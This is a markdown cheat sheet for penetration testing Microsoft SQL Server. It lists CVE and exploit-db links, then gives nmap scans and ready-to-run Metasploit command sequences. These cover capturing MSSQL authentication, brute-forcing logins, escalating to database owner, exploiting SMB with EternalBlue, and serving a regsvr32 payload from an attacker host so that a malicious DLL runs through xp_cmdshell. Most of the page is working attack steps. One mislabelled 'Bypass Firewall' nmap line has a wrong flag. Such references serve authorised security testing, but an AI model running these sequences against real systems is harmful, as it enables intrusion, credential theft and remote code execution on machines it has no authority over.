 ﻿# MSSQL Pentesting
## CVEs: Common Vulnerabilities and Exposures
* [Uninitialized Memory -SQL Server Remote Code Execution Vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1763)
* [SQL Server Remote Code Execution Vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1762)
* [SQL Server Elevation of Privilege Vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1761)
* [Microsoft SQL Server Stack Overrun Vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-4061)
* [MSCOMCTL.OCX RCE Vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-1856)

## Exploit-db exploits
* [XAMPP for Windows 1.6.0a - 'mssql_connect()' Remote Buffer Overflow](https://www.exploit-db.com/exploits/3738)
* [PHP 4.4.6 - 'mssql_[p]connect()' Local Buffer Overflow](https://www.exploit-db.com/exploits/3417)
* [ADODB < 4.70 - 'tmssql.php' Denial of Service](https://www.exploit-db.com/exploits/1651)
* [MSSQL 7.0 - Remote Denial of Service](https://www.exploit-db.com/exploits/562)
* [Microsoft SQL Server - sp_replwritetovarbin Memory Corruption](https://www.exploit-db.com/exploits/16392)
* [Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution](https://www.exploit-db.com/exploits/41987)

## NMAP
### Recon
**Quickscan**
 `nmap -sV -T4 -O -F --version-light <ip>`
 **version of database**
 `nmap -p <port> -A <ip>`
 **Bypass Firewall**
 `nmap -sC <ip> -sV -0`

## Metasploit
### Recon
`use auxiliary/scanner/mssql/mssql_ping`
`set RHOSTS <ip>`
`exploit`

### Authentication Capture: MSSQL
`use auxiliary/server/capture/mssql`
`show actions `
`set ACTION <action-name> `
`show options `
`set <options>`
`run`

### SMB port 445
`use auxiliary/scanner/smb/smb_ms17_010`
`set RHOSTS <ip>`
`set THREADS 10`
`run`
**exploit it**
`use exploit/windows/smb/ms17_010_eternalblue`
`set RHOST <ip>`
`exploit -j`

### Get Credentials
`use auxiliary/scanner/mssql/mssql_login`
`set RHOSTS <ip>`
`run`

## with credentials
`use auxiliary/admin/mssql/mssql_enum`
`set RHOSTS <ip>`
`set password <pswd>`
`run`

#### beware of
**Xp-cmdshell is enabled**: execute commands on the remote system through the SQL Server

### Identify SQL Server Logins
`use auxiliary/admin/mssql/mssql_enum_sql_logins`
`set RHOSTS <ip>`
`set PASSWORD <pswd>`
`run`

### Identify Database owner
`use auxiliary/admin/mssql/mssql_escalate_dbowner`
`set RHOSTS <ip>`
`set PASSWORD <pswd>`
`run`

## Execute malicious .dll code through xp-cmdshell as CMD statement
`use exploit/windows/misc/regsvr32_applocker_bypass_server`
`set LHOST <ip>`
`set LPORT 4455`
`run`

